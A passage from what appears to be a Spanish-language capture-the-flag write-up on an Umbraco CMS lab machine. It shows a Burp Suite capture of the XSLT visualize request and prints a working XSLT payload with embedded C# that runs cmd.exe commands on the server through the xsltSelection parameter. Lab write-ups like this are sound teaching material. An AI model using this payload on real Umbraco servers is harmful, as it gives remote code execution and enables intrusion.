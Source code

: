Primero nos dirigimos a la ruta: \
http://10.10.10.180/umbraco/developer/Xslt/xsltVisualize.aspx

Preparamos nuestro proxy con BurpSuite y damos clic en el botón **Visualize XSLT**. 

![6](images/6.png)

Capturamos la request y la mandamos al **Repeater**.

![7](images/7.png)

Mandamos nuestro primer exploit para comprobar que tenemos ejecución de código remoto a través del parametro **ctl00$body$xsltSelection**.

```
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml(){ string cmd = "/c dir c:\\"; System.Diagnostics.Process proc = new System.Diagnostics.Process();proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = cmd;proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }</msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/></xsl:template></xsl:stylesheet>
```
